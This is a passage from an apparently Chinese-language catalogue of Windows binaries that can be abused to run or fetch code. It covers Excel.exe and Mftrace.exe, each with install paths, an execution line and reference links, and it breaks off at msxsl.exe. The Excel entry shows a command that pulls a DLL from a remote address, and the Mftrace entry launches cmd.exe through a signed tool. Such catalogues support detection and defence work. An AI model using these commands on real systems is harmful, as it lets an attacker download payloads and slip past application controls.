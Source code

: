 - 使用说明：
Microsoft Office 表格程序。

文件路径:
```
C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Excel.exe
C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Excel.exe
C:\Program Files (x86)\Microsoft Office\Office16\Excel.exe
C:\Program Files\Microsoft Office\Office16\Excel.exe
C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Excel.exe
C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Excel.exe
C:\Program Files (x86)\Microsoft Office\Office15\Excel.exe
C:\Program Files\Microsoft Office\Office15\Excel.exe
C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Excel.exe
C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Excel.exe
C:\Program Files (x86)\Microsoft Office\Office14\Excel.exe
C:\Program Files\Microsoft Office\Office14\Excel.exe
C:\Program Files (x86)\Microsoft Office\Office12\Excel.exe
C:\Program Files\Microsoft Office\Office12\Excel.exe
C:\Program Files\Microsoft Office\Office12\Excel.exe
```
- 执行方式：
```
Excel.exe http://192.168.1.10/TeamsAddinLoader.dll
```
- 参考资料：
```
https://twitter.com/reegun21/status/1150032506504151040
https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
```
## Mftrace.exe
- 使用说明：
Media Foundation Tools的跟踪日志生成工具。

文件路径:
```
C:\Program Files (x86)\Windows Kits\10\bin\10.0.16299.0\x86
C:\Program Files (x86)\Windows Kits\10\bin\10.0.16299.0\x64
C:\Program Files (x86)\Windows Kits\10\bin\x86
C:\Program Files (x86)\Windows Kits\10\bin\x64
```
- 执行方式：
```
Mftrace.exe cmd.exe
```
- 参考资料：
```
https://twitter.com/0rbz_/status/988911181422186496
```
## msxsl.exe
- 使用说明：

